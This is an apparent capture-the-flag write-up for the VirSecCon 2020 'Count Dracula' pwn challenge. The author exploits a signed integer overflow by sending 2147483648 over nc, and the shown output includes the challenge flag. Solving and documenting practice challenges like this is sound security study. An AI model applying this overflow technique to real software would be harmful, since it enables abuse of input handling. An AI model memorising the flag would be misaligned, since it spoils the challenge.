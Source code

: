 ## Count Dracula (Pwn, 75pts)  
# Enumeration

By connecting to the given address we are given a mini application where we have a Dracula counting for us,
it states though that cannnot handle negative numbers ... . interesting...


```
shad3@zeroday:~/Desktop/Security/CTF/virsec/VirSecCon 2020$ nc jh2i.com 50037

              oooOOOooo
           oOOOOOOOOOOOOOo
         oOO"           "OO
    ____oOO  ====   ====  OOo____ 
    \   OO'      ! !.---. 'OO   /
     \  OO   <0> ! !!<0>!  OO  /
      \ Oo       ! !'---'  oO /
       \o        \_/        o/
        .' _______________ '.
      ,'   :   V     V   :   '.
    ,'      -_         _-      '.
  ,'          "oOOOOOo"          '.
,'              OOOOO              '.
-----------     "OOO"     -----------
                 "O"             
 
Hello! I am Count Dracula, and I like to count!
 
What number shall we count up to? I can't handle negative numbers!
> 999

Okay, let's count to 999!

         1... 2... skip a few... 999!

Thanks for counting with me, until next time!
```

# Exploitation

Shortly after trying different types of attacks I figgured out its an Integer Overflow challenge, the concept
is to force the number to become negative... :) so lets send the infamous 2147483648 so it will get 
wrapped around and get our flag.

Read Suggestion FYI:
https://sploitfun.wordpress.com/2015/06/23/integer-overflow/



```shad3@zeroday:~/Desktop/Security/CTF/virsec/VirSecCon 2020$ nc jh2i.com 50037

              oooOOOooo
           oOOOOOOOOOOOOOo
         oOO"           "OO
    ____oOO  ====   ====  OOo____ 
    \   OO'      ! !.---. 'OO   /
     \  OO   <0> ! !!<0>!  OO  /
      \ Oo       ! !'---'  oO /
       \o        \_/        o/
        .' _______________ '.
      ,'   :   V     V   :   '.
    ,'      -_         _-      '.
  ,'          "oOOOOOo"          '.
,'              OOOOO              '.
-----------     "OOO"     -----------
                 "O"             
 
Hello! I am Count Dracula, and I like to count!
 
What number shall we count up to? I can't handle negative numbers!
> 2147483648                                                  

Okay, let's count to -2147483648!

         1... 2... skip a few... -2147483648!
OH NO, I COUNTED ALL WRONG!
OH NOOOOOOOOOOOOOO

DO YOU KNOW WHAT THIS MEANS???!!

5...

4...

3...
THAT'S NOT ME COUNTING... ! !

2...

1...


                               _.-^^---....,,--
                           _--                  --_
                          <                        >)
                          |                         |
                           \._                   _./
                              ```--. . , ; .--'''
                                    | |   |
                                 .-=||  | |=-.
                                 `-=#$%&%$#=-'
                                    | ;  :|
                           _____.,-#%&$@%#&#~,._____ 



                                 __ ,
     _______            _      ,"  )
 ,=""       """>-._ __," )    ( _,"
(  (                 "("" ,    " __
 \         (      C   "*=,  ,  ,"  ")    
  )    )    )  ",         )  _(   )*    
 (     ((        )      ((  ( 
  ",     )               ),     LLS{2147483647_thats_the_number_of_the_day}

    ))              *;=-"                        
   /"          (   ,=""=,,_                                    r,r
  (           __,=,>,_    "*==,_"==,,_         oOOOo          dlpr*
   "=,____.-=",      "  .__  '"*;>,_=7<;_,-._.O ;   o.___        7y
    jjs       "u         '""*;;7 7"       \  )       )  /    _//
                            ,_:*/          \ |) X  X { /  __/ ")
                             '"*{           \{;,,_^_," =" (_,"
                                 \_        /  \\,_.;{      \;
                                   7      }_._.'=--='___.-_='
                                  /   __ /"
                                 {     '">,__
                                  \    ;"   c)
                                   ", _)>=-<"
```
